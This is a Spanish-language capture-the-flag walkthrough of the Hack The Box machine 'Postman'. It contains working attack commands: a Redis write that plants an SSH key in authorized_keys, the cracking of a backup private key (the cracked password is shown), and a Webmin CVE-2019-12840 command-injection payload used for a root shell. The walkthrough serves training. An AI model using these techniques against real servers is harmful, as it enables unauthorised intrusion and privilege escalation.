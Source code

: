 # Postman ![Avatar](https://www.hackthebox.eu/storage/avatars/ad38e890e4e93afce51118bec4b9f48b_thumb.png)
## Initial Scan
```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-server-header: MiniServ/1.910
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```
## Enum
### Webmin
Este podría
### Redis
El servicio redis nos permite interaccionar con el sin ningun tipo de autenticación, abusaremos de esto para subir nuestra propia clave y obtener sesion en el servidor como redis , para ello ejecutaremos lo siguiente
```
:~/Current/HTB$ (echo -e "\n\n"; cat key_rsa.pub ; echo -e "\n\n") > key.txt
:~/Current/HTB$ cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key
OK
:~/Current/HTB$ redis-cli -h 10.10.10.160
10.10.10.160:6379> GET ssh_key
"\n\n\nssh-rsa AAAAB3NzaC.............\n\n\n\n"
10.10.10.160:6379> CONFIG GET dir
1) "dir"
2) "/var/lib/redis/.ssh"
10.10.10.160:6379> CONFIG SET dbfilename authorized_keys
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> exit
```
Tras esto podemos logearnos en el sistema sin ningún problema como redis

## Privesc 
### Matt
Encontramos el siguiente archivo de backup
```
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak
```
Copiamos la clave y la traemos a nuestra máquina para poder crackear su clave, usamos ssh2john y crackeamos el hash, con ello veremos que la clave es la siguiente
```
computer2008     (second_key)
```
Con esta clave nos podremos logear como Matt, pero no desde el ssh directamente si no mediante su
### Root

Tras un rato buscand omaneras de hacer privesc recorde que habia un servicio webmin que no habiamos utilizado para nada, probamos las credenciales de Matt en el servicio y accedimos sin problema, busquemos alguna forma de escalar privilegios desde aquí, ya que el webmin ha sido invocado como root
```
Matt@Postman:/etc/webmin$ ps aux | grep webmin
root        695  0.0  3.2  95320 29536 ?        Ss   Sep06   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
```
Desde el escaneo del principio sabemos la version de webmin, 1.910 esta version es vulnerable a el CVE 2019-12840, abusemos del mismo para obtener RCE como root, para ello podriamos usar alguno de los exploits disponibles para el CVE aunque en este caso vamos a hacerlo a mano para evitar los problemas con el certificado ssl de la página , para ello hacemos lo siguiente
1* Abrimos BurpSuite y mediante el proxy interceptamos una request a /package-updates/update.cgi
2* Para obtener la request que necesitamos vamos a System -> Software Packcage Mangamente -> Update -> Update selecteds
3* Añadir el siguiente payload al data en la request  
```
u=acl%2Fapt&u=$(COMANDO A EJECUTAR)
```
Con esto podemos conseguir obtener una reverse shell, si pasamos los filtros :v
